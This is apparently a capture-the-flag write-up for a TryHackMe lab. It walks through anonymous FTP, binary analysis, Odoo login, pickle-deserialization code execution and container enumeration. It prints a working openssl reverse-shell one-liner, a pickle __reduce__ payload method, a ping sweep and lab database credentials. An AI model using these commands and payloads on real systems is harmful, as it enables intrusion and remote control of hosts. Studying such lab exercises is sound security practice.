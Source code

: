 # Obscure

[Obscure](https://tryhackme.com/room/obscured)

## Solution

- nmap scan: 21, 22, 80

### Part 1

We see from the nmap scan that we can connect using anonymous session with ftp.
In the fpt session we find a `notice.txt` file and an ELF executable called
`password`. From the notice `password` is an application that stores passwords?

Intresting `strings`:

```
SecurePaH
ssword12H
```

We can `chmox +x password` and try to run it. We get the following message:

```
Password Recovery
Please enter your employee id that is in your email
```

If we try to break  the app with a very long string we get `*** stack smashing
detected ***: terminated` so we might not be able to redirect code execution.
We can try to gdb into the executable and try to see if we can somehow exploit
the tool.

Using gdb we can see that the input is compared using strcmp with `971234596`,
which is one of the strings of the executable, and it seems that it is the user
id. We can try to run the executable with that value.

After runnin the `password` tool with the input `971234596` we get
`SecurePassword123!`. This might be useful later. Maybe there is something else
in the code that we can do.

We can access the website on port 80. After playing around a bit, I tried to go
to `Manage Databases`. There I tried to run backup and provided the password
that we got from the executable. And it downloaded a zip archive.

Scanning trought the `dump.sql` file I found something interesting `1	t
admin@antisoft.thm		1	3	\N	f	1	\N	\N	2022-07-23 10:52:10.087949
<span data-o-mail-quote="1">-- <br data-o-mail-quote="1">\nAdministrator</span>
$pbkdf2-sha512$12000$lBJiDGHMOcc4Zwwh5Dzn/A$x.EZ/PrEodzEJ5r4JfQo2KsMZLkLT97xWZ3LsMdgwMuK1Ue.YCzfElODfWEGUOc7yYBB4fMt87ph8Sy5tN4nag`

Funny enough, the login `admin@antisoft.thm` and password `SecurePassword123!`
works on the website. (We can try and see if hashcat finds the same password,
but it's not necessary).

I was randomly clicking on the sidebar (Apps, Updates) and got an error
`Uncaught TypeError: Cannot read properties of null (reading '0')`. Not sure if
it is relevant or not. There is also a `Settings` tab. Maybe that is more
interesting.

I searched for odoo on exploitdb and found something that looks promising. This
seems to match with the version that we have and is an actual thing. I spent so
much time on that. But it didn't work first try. I am too deep to not continue
on this rabbit hole. https://www.exploit-db.com/exploits/44064 There is another
button `Activate developer mode`... smh. Idk if that does something. Still no
idea what to do from here.

Well, the database anonymous exploit was actually the way to go. I just needed
to try a different connection method. You need to use pickle and pyhton2.7 for
this to work. Basically do the reverse of what happens on the server. After
many experiments, they do pickle.load (no base64, just raw).

```
user@attack$ ncat --ssl -vv -l -p 4242

user@victim$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s
```

So we need to put the victim command as the payload for a pickled file. Create
a class that extends object and in the `__reduce__` method return a tuple
`(os.system, (payload,))`. This will execute the payload on pickle.load.
Full script `./expickle/exploit.py`.

Next go to the home directory and cat the flag file.

### Part 2

It looks like we are logged in as `odoo` and we are inside a docker container.

```
HOSTNAME=b8a9bbf1f380
DB_PORT=tcp://172.17.0.2:5432
SHLVL=0
DB_ENV_PG_MAJOR=9.4
HOME=/var/lib/odoo
OLDPWD=/var
DB_NAME=/unkkuri-odoo/db
DB_PORT_5432_TCP=tcp://172.17.0.2:5432
DB_ENV_PGDATA=/var/lib/postgresql/data
ODOO_RC=/etc/odoo/odoo.conf
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
DB_ENV_PG_VERSION=9.4.26-1.pgdg90+1
DB_ENV_LANG=en_US.utf8
ODOO_VERSION=10.0
PWD=/
DB_PORT_5432_TCP_ADDR=172.17.0.2
DB_ENV_POSTGRES_PASSWORD=unkkuri-secret-pw
DB_ENV_GOSU_VERSION=1.11
TZ=UTC
DB_PORT_5432_TCP_PORT=5432
DB_ENV_POSTGRES_USER=odoo
DB_PORT_5432_TCP_PROTO=tcp
```

Another interesting thing is that there is also a `172.17.0.1` host on the
network. We can run the following to check.

```
for i in $(seq 1 254); do (ping -c 1 172.17.0.${i} | grep "64 bytes from" | grep -oE "([0-9]{1,3}[\.]){3}[0-9]{1,3}" &); done;
```

- `172.17.0.1` main server
- `172.17.0.2` the postgresql database
- `172.17.0.3` the odoo thing that we can access

Nice it looks like we have `psql` so we can try to connect to pg. We can try to
connect to the `main` db. Since we saw this name back when we were in the web
odoo stuff. (Big brain, took me a lot of time to remember the name). I guess
the password is obvious, but it is `unkkuri-secret-pw` look above.

```
psql postgresql://172.17.0.2:5432/main
```

I looked into the schemas but I could not find anything useful.
